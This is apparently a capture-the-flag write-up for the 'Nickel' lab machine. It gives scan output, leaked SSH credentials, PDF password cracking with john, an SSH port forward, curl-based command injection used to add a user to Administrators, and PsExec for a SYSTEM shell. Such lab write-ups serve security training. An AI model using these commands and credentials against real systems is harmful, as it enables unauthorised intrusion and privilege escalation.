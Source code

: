 ```yaml
---
description: 11-09-2022
---
```


# Nickel (Intermediate)

<figure><img src="../../../.gitbook/assets/image (3) (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8684fdd5432705cfa7f2e9e27570d5f3 (RSA)
|   256 9c93cf48a94e70f460dee1a9c2c0b6ff (ECDSA)
|_  256 004ed73b0f9fe3744d04990bb18bdea5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-11-10T02:03:11+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-09T01:58:19
| Not valid after:  2023-05-11T01:58:19
| MD5:   ae87078529cc1047117f9699a5364c3c
|_SHA-1: 254de154bbf9a8bcc47973866f5187715b4341bc
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-11-10T02:02:04+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Enumerated UDP ports:

```
1000 open|filtered udp ports (no-response)
```

Notes:

* 21/FTP - HTA attack or other client-side attack? Permissions? Version
* 3389/RDP - <mark style="color:yellow;">Product\_Version: 10.0.18362</mark>
* 8089/HTTP - DevOps Dashboard
* 33333/HTTP - Blank as of discovery; "invalid token"

## Enumeration

### Port 8089 - HTTP "DevOps Dashboard"

<figure><img src="../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Let's check out List Running Processes as it seems the most interesting

### Unable to Connect

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

Let's change the IP to the target's and try again:

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

* Interesting, the server is reporting that it cannot "GET" the directory
* What if we sent it a POST?

POST Request:

<figure><img src="../../../.gitbook/assets/image (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SSH Enumeration

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Credentials:

User: ariah

Password: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

* Base64 encoding?

<figure><img src="../../../.gitbook/assets/image (18) (4).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">ariah:NowiseSloopTheory139</mark>

Connecting to host via SSH:

```
ssh ariah@192.168.81.99
password: NowiseSloopTheory139
```

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Sensitive Information Disclosure

* The list-running-procs function within the poorly configured web app pointed me to SSH credentials which granted me initial foothold of the victim machine

## Privilege Escalation

### Local enumeration

* Interesting file in <mark style="color:yellow;">C:/ftp/infrastructure.pdf</mark>
* <mark style="color:yellow;">Unable to utilize SMB or HTTP for file transfer, remembered SSH was open and utilized SCP for file transfer</mark>

### SCP File Transfer

```
scp ariah@192.168.81.99:C:/ftp/infrastructure.pdf .
ariah@192.168.81.99's password: NowiseSloopTheory139

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00 
```

* We can now access Infrastructure.pdf from our Kali box

Opening PDF:

<figure><img src="../../../.gitbook/assets/image (14) (1) (3).png" alt=""><figcaption></figcaption></figure>

* However, when I'm trying to open it, we find out that it is encrypted
  * Sounds like a <mark style="color:yellow;">pdf2john</mark> kind of mission

### pdf2john -- infrastructure.pdf

```
pdf2john Infrastructure.pdf > Infrastructure.hash
Infrastructure.pdf:$pdf$4*4*128*-1060*1*16*14350d814f7c974db9234e3e719e360b*32*6aa1a24681b93038947f76796470dbb100000000000000000000000000000000*32*d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0
```

Cracking:

```
john --wordlist=/usr/share/wordlists/rockyou.txt Infrastructure.hash

ariah4168        (Infrastructure.pdf)
```

* Successfully cracked password!
* <mark style="color:yellow;">ariah4168</mark>

<figure><img src="../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

### Network Enumeration

* We can see that there is an internal web server running on port 80
* Let's use SSH to port forward it so we can access it on Kali

<figure><img src="../../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

### SSH Portforward

```
ssh -f -N -L <kali-bind-ip>:<kali-tcp-port>:<target-side-ip>:<target-tcp-port> username@target-ip

ssh -f -N -L 127.0.0.1:8080:127.0.0.1:80 ariah@192.168.81.99
```

<figure><img src="../../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

* If we refer back to the pdf, there is a command injection endpoint at the root level

```
curl 'http://localhost:8080/?whoami'

nt authority\system
```

* Wow, the web server is running as SYSTEM

Add user ariah to the Administrator group:

```
curl 'http://localhost:1337/?Add-LocalGroupMember%20-Group%20Administrators%20-Member%20ariah'
```

Add psexec to the target with SCP:

{% embed url="https://download.sysinternals.com/files/PSTools.zip" %}

On Kali:

```
scp PsExec64.exe ariah@192.168.81.99:C:/ftp/
```

On Windows Target:

```
PsExec64.exe -accepteula -s cmd.exe
```

## Proof

<figure><img src="../../../.gitbook/assets/image (4) (5) (2).png" alt=""><figcaption></figcaption></figure>
